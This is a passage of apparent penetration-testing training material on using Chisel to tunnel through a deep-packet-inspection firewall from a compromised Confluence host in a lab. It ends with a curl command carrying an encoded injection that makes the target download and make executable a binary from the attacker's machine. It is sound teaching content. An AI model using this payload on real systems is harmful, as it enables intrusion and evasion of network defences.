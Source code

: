 # Tunneling Through Deep Packet Inspection

Deep packet inspection1 is a technology that's implemented to monitor traffic based on a set of rules. It's most often used on a network perimeter, where it can highlight patterns that are indicative of compromise.

Deep packet inspection devices may be configured to only allow specific transport protocols into, out of, or across the network. For example, a network administrator could create a rule that terminates any outbound SSH traffic. If they implemented that rule, all connections that use SSH for transport would fail, including any SSH port redirection and tunneling strategies we had implemented.

Given the variety of restrictions that may be implemented on a network, we need to learn and leverage a number of different tunneling tools and strategies to successfully bypass technologies like deep packet inspection.

## HTTP Tunneling Fundamentals

Let's begin our exploration of HTTP tunneling by introducing a simple scenario. In this case, we have compromised CONFLUENCE01, and can execute commands via HTTP requests. However, once we try to pivot, we are blocked by a considerably restrictive network configuration.

Specifically, a Deep Packet Inspection (DPI) solution is now terminating all outbound traffic except HTTP. In addition, all inbound ports on CONFLUENCE01 are blocked except TCP/8090. We can't rely on a normal reverse shell as it would not conform to the HTTP format and would be terminated at the network perimeter by the DPI solution. We also can't create an SSH remote port forward for the same reason. The only traffic that will reach our Kali machine is HTTP, so we could, for example, make requests with Wget and cURL.

## HTTP Tunneling with Chisel

The above is a perfect scenario for Chisel, an HTTP tunneling tool that encapsulates our data stream within HTTP. It also uses the SSH protocol within the tunnel so our data will be encrypted.

Chisel uses a client/server model. A Chisel server must be set up, which can accept a connection from the Chisel client. Various port forwarding options are available depending on the server and client configurations. One option that is particularly useful for us is reverse port forwarding, which is similar to SSH remote port forwarding.

We will run a Chisel server on our Kali machine, which will accept a connection from a Chisel client running on CONFLUENCE01. Chisel will bind a SOCKS proxy port on the Kali machine. The Chisel server will encapsulate whatever we send through the SOCKS port and push it through the HTTP tunnel, SSH-encrypted. The Chisel client will then decapsulate it and push it wherever it is addressed.

The traffic between the Chisel client and server is all HTTP-formatted. This means we can traverse the deep packet inspection solution regardless of the contents of each HTTP packet. The Chisel server on our Kali machine will listen on TCP port 1080, a SOCKS proxy port. All traffic sent to that port will be passed back up the HTTP tunnel to the Chisel client, where it will be forwarded wherever it's addressed.

Once chisel is installed on the remote system:

```bash
kali@kali:~$ curl http://192.168.247.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.45.176/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/
kali@kali:~$ tail -f /var/log/apache2/access.log # Verify that the chisel file was transferred
```
